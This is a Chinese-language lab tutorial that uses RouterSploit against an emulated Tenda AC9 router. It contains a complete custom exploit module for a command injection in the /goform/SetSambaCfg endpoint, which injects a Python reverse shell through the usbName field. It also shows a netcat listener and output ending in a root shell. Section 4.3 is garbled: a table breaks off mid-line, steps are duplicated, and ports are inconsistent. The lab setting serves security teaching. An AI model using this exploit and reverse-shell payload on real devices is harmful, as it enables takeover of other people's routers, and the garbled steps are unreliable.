





# RouterSploit工具使用

## 1. 实验目标

通过本实验，学习者将：
- 理解RouterSploit工具的基本原理与使用方法
- 学习使用RouterSploit检测并利用IoT设备漏洞
- 掌握RouterSploit的渗透测试技术

## 2. 实验原理

RouterSploit是一个专注于嵌入式设备安全测试的开源框架，特别针对路由器、摄像头等IoT设备的漏洞检测与利用。它的架构类似于大名鼎鼎的Metasploit，采用了高度模块化的设计，主要包含以下几个核心模块：
- **exploits（利用模块）**：利用已知漏洞来获取目标设备的控制权。
- **creds（凭证模块）**：用于测试目标协议的默认凭证和弱口令（进行爆破攻击）。
- **scanners（扫描模块）**：用于快速批量扫描目标，判断是否存在已知漏洞的特征。
- **payloads（载荷模块）**：为各个漏洞利用模块提供攻击后门载荷（如反弹Shell）。

在本实验中，我们将主要研究如何使用RouterSploit来检测和利用路由器中的**命令注入漏洞（Command Injection）**。命令注入漏洞通常是由于IoT设备的Web管理界面在接收用户输入（如IP地址、配置参数等）并将其传递给底层系统环境（如bash/sh）执行时，缺乏严格的过滤和转义。攻击者可以通过拼接特定的shell元字符（如`;`、`&&`、`|`）逃逸出原有命令的限制，从而在设备底层操作系统上执行任意恶意指令并获得控制权。

## 3. 实验环境

### 3.1 实验环境要求
- 操作系统：Linux (推荐Kali Linux或Ubuntu)
- 目标设备：IoT设备固件模拟环境（使用FirmEmuHub仿真）
- 网络环境：Docker容器内进行操作
- 工具：
  - RouterSploit框架
  - Python3及相关依赖
  - docker环境
  - 网络调试工具

### 3.2 RouterSploit安装

在Kali Linux中，RouterSploit通常已预安装。如果需要手动安装或者在Ubuntu中安装，由于涉及到Python环境的隔离配置与依赖安装，请按照以下步骤依次操作并理解其含义以完成环境搭建：

```bash
# 1. 克隆RouterSploit仓库
# 含义：将RouterSploit的完整源代码文件从GitHub在线存储库下载到本地计算机。
git clone https://github.com/threat9/routersploit

# 2. 进入RouterSploit目录
# 含义：切换当前终端的工作路径到刚刚克隆下来的文件夹中。
cd routersploit

# 3. 安装依赖并创建虚拟环境
# 含义：创建一个名为 .venv 的Python虚拟环境。虚拟环境能将该项目的依赖包独立存放，避免与操作系统或其他Python项目的包产生版本冲突。
python3 -m venv .venv

# 4. 激活虚拟环境
# 含义：激活后，终端提示符前通常会多出一个(.venv)标识。此时系统默认调用的 python 和 pip 命令都会指向这个隔离环境，保障环境纯净。
source .venv/bin/activate

# 5. 更新基础包管理器
# 含义：升级虚拟环境中的pip（Python的包下载工具）到最新版本，确保后续安装不会因版本老旧而失败。
pip install --upgrade pip

# 6. 安装需求库
# 含义：根据 requirements.txt 文件，自动批量读取并下载框架运行所需的所有核心第三方依赖库（例如 requests 网络库、paramiko 等）。
pip install -r requirements.txt

# 7. 更新打包安装套件
# 含义：升级 setuptools（Python的打包和分发工具）。某些依赖库的源码构建强依赖于新版的setuptools，提前升级能规避潜在编译报错。
pip install --upgrade setuptools

# 8. 启动RouterSploit
# 含义：在配置完好的虚拟环境中，通过python运行主程序代码。成功后将直接进入类似 msfconsole 的 RouterSploit 命令行交互界面（RSF终端）。
python3 rsf.py
```


## 4. 实验步骤

### 4.1 启动模拟环境

我们使用开源的FirmEmuHub工具模拟运行IoT设备固件。

```bash
cd FirmEmuHub

sudo python main.py -b ./Benchmark/BM-2024-00012 
```

然后在web页面访问映射出来的端口验证服务正常启动。



### 4.2 使用RouterSploit进行漏洞扫描

1. 定制对应漏洞利用模块

由于`routersploit`并不自带tenda_ac9的poc，所以我们直接之前用过的poc并把其改写为按照`routersploit`模块编写要求的代码并放入对应位置

```bash
mkdir routersploit/modules/exploits/routers/tenda

vim routersploit/modules/exploits/routers/tenda/ac9_samba_rce.py
```

然后将如下exp写入文件里

```python
#!/usr/bin/env python3

from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class Exploit(HTTPClient):
    __info__ = {
        "name": "Router Samba Command Injection",
        "description": "Module exploits command injection vulnerability in router's Samba configuration.",
        "authors": [
            "Your Name",
        ],
        "references": [
            "https://example.com/cve-reference",
        ],
        "devices": [
            "Vulnerable Router Models",
        ],
    }

    target = OptIP("", "Target IPv4 or IPv6 address")
    port = OptPort(80, "Target HTTP port")
    lhost = OptIP("", "Local IP for reverse connection")
    lport = OptPort(8888, "Local port for reverse connection")
    path = OptString("/goform/SetSambaCfg", "Path to vulnerable endpoint")

    def run(self):
        if not self.check():
            return

        print_status("Sending payload to establish reverse shell...")
        
        # 构建反向shell的payload
        reverse_shell = f";python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{self.lhost}\",{self.lport}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        
        # 构建漏洞利用数据
        data = {
            "password": "111111",
            "premitEn": "0",
            "internetPort": "21",
            "action": "del",
            "usbName": reverse_shell,
            "guestpwd": "guest",
            "guestuser": "guest",
            "guestaccess": "r",
            "fileCode": "UTF-8"
        }
        
        # 添加Cookie头
        headers = {"Cookie": "password=lqetgb"}
        
        # 发送POST请求触发命令注入
        response = self.http_request(
            method="POST",
            path=self.path,
            data=data,
            headers=headers
        )
        
        if response is None:
            print_error("Exploit failed - device did not respond")
        elif response.status_code == 200:
            print_success("Payload sent successfully, check your listener for shell connection")
        else:
            print_error(f"Exploit failed - received HTTP {response.status_code}")

    def check(self):
        # 简单检查目标是否可访问
        response = self.http_request(
            method="GET",
            path="/"
        )
        
        if response is None:
            print_error("Target is not responding")
            return False
            
        print_status("Target is responding")
        print_status("This module does not verify vulnerability, it only attempts exploitation")
        return True
```

保存后退出

2. 启动RouterSploit框架：

```bash
# 如果已安装
routersploit

# 或者使用源码启动
cd routersploit
python3 rsf.py
```

3. 使用自动扫描模块检测目标设备的漏洞：

```bash
python3 rsf.py  # 启动RouterSploit框架

rsf > use scanners/autopwn  # 加载自动扫描模块，该模块能够自动发现目标设备的各种漏洞
rsf (AutoPwn) > show options  # 显示当前模块的所有可配置选项

Target options:  # 目标设置选项组

   Name       Current settings     Description                     
   ----       ----------------     -----------                     
   target                          Target IPv4 or IPv6 address     # 目标设备的IP地址，必须设置

Module options:  # 模块特定选项组

   Name           Current settings     Description                           
   ----           ----------------     -----------                           
   vendor         any                  Vendor concerned (default: any)       # 设备厂商筛选，默认为any表示扫描所有厂商的漏洞
   http_use       true                 Check HTTP[s] service: true/false     # 是否检查HTTP服务漏洞
   http_ssl       false                HTTPS enabled: true/false             # 是否使用SSL连接进行HTTP检测
   ftp_use        true                 Check FTP[s] service: true/false      # 是否检查FTP服务漏洞
   ftp_ssl        false                FTPS enabled: true/false              # 是否使用SSL连接进行FTP检测
   ssh_use        true                 Check SSH service: true/false         # 是否检查SSH服务漏洞
   telnet_use     true                 Check Telnet service: true/false      # 是否检查Telnet服务漏洞
   snmp_use       true                 Check SNMP service: true/false        # 是否检查SNMP服务漏洞
   threads        8                    Number of threads                     # 并发线程数，影响扫描速度

rsf (AutoPwn) > set target {服务开放的IP}  # 设置目标IP地址，需替换为实际的IP地址
[+] target => {服务开放的IP}  # 确认目标IP设置成功
rsf (AutoPwn) > set http_port 32768  # 设置目标HTTP服务端口，需替换为实际端口号
[+] http_port => {服务开放的端口}  # 确认端口设置成功
rsf (AutoPwn) > run  # 开始执行自动扫描，系统将对目标设备进行全面的漏洞扫描

3. 观察扫描结果，RouterSploit会显示发现的漏洞，包括路由器中可能存在的命令注入漏洞。
```



### 4.3 利用发现的漏洞


1. 使用相应的漏洞利用模块：

```bash
rsf (AutoPwn) > use exploits/routers/generic/samba_command_injection
rsf (Router Samba Command Injection) > show options # 查看模块的可配置选项

Target options: # 目标设置选项

   Name       Current settings     Description                           
   ----       ----------------     -----------                           
   ssl        false                SSL enabled: true/false               # 是否启用SSL连接
   target                          Target IPv4 or IPv6 address     # 设置进行渗透操作的目标IP地址      
   port       80                   Target HTTP port                # 设置目标设备的HTTP服务端口      
   lhost                           Local IP for reverse connection       # 设置接收反弹shell的本地IP地址
   lport      8888                 Local port for reverse connection     # 设置接收反弹shell的本地端口


Module options: # 模块特定选项

   Name          Current settings        Description                       
   ----          ----------------        -----------                       
   verbosity 本地监听器（Netcat）：

```bash
# 使用nc(Netcat)开启本地端口监听，等待被攻击路由器设备的Shell反连请求
# 关键参数解释：
# -l (listen): 开启监听(Listen)模式，使主机转为服务端，不主动发起连接而是等待外部连入
# -v (verbose): 启用详细(Verbose)输出模式，显示连接成功建立和网络报错的相关细节
# -n (numeric): 指示只使用数字(Numeric)形式即IP地址，不执行耗时的网络DNS反向解析，加速连接
# -p (port): 指定要绑定的本地监听端口号，这里必须与RouterSploit中设置的反弹端口`lport (12345)`保持绝对一致
nc -lvnp 12345
```


3. 执行最终漏洞利用并获取Shell：

```bash
# 配置好靶机IP、监听IP和监听端口后，输入run命令进行实质性攻击发包
rsf (Router Samba Command Injection) > run
[*] Running module exploits/routers/tenda/ac9_samba_rce...
[*] Target is responding # RouterSploit前置探活检测：发现目标路由器在线并具备HTTP响应
[*] This module does not verify vulnerability, it only attempts exploitation # 直接进入利用阶段，开始构造利用数据包
[*] Sending payload to establish reverse shell... # 成功将包含反弹Shell特征代码的Payload发送至路由器并触发！

2. 在另一个终端窗口启动监听器：

```bash
nc -lvnp 12345
```


3. 执行漏洞利用：

```bash
rsf (Router Samba Command Injection) > run
[*] Running module exploits/routers/tenda/ac9_samba_rce...
[*] Target is responding
[*] This module does not verify vulnerability, it only attempts exploitation
[*] Sending payload to establish reverse shell...
```

4. 接收反弹shell并开始利用漏洞

在启动监听器的终端发现已经获得了shell，证明漏洞成功利用

```bash
┌──(virtual㉿virtual)-[~/…/modules/exploits/routers/tenda]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

Connection received on 192.168.62.141 32768
# whoami
root
```


## 5. 实验结果验证

实验结果的验证可以从以下几个方面进行：

1. **漏洞扫描验证**
   - RouterSploit的AutoPwn模块成功识别出目标设备的漏洞
   - 显示漏洞详情及可利用性

2. **漏洞利用验证**
   - 利用模块成功发送命令注入Payload
   - 接收到反向shell连接
   - 能够在目标设备上执行任意命令

## 6. 实验小结与思考

通过本实验，我们学习了如何使用RouterSploit工具对IoT设备进行漏洞检测和利用。主要收获包括：

1. 掌握了RouterSploit工具的基本使用方法
2. 掌握了使用自动扫描模块发现设备漏洞的技术
3. 学习了如何利用发现的命令注入漏洞获取设备控制权

RouterSploit是一款强大的IoT设备渗透测试工具，通过本实验可以看出，许多IoT设备存在严重的安全漏洞。开发者和用户都应该重视IoT设备的安全问题，及时更新固件，修复已知漏洞。

## 7. 参考资料

[RouterSploit官方文档](https://github.com/threat9/routersploit/wiki)
